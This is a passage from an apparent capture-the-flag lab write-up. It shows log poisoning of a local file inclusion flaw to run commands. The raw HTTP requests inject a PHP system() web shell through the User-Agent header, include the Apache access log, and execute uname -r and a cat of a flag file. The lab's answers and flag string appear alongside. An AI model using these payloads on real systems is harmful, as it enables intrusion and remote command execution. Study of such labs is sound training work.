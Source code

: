 ```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi= HTTP/1.1
Host: 10.10.141.166
User-Agent: Mozilla/5.0 <?php system($_GET['lfi']) ?> Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`No answer needed`

6. Give it a try and run uname -r. What's the output of the command?

```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r HTTP/1.1
Host: 10.10.141.166
User-Agent: <?php system($_GET['lfi']) ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`4.15.0-72-generic`

7. With this knowledge read the flag from the lfi user home directory.

```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt HTTP/1.1
Host: 10.10.141.166
User-Agent: Mozilla/5.0 <?php system($_GET['lfi']) ?> Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`10.8.106.222 - - [28/Sep/2020:11:02:22 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt HTTP/1.1" 200 1286 "-" "Mozilla/5.0 THM{a352a5c2acfd22251c3a94105b718fea}
 Firefox/68.0"`

`THM{a352a5c2acfd22251c3a94105b718fea}`

8. There is way more in LFI exploitation. Here we barely scratched the surface. But I encourage you to do more research. Below is what I consider to be the best resource which covers everything related to LFI from basic to advanced: [A huge collection of information regarding LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

`No answer needed`
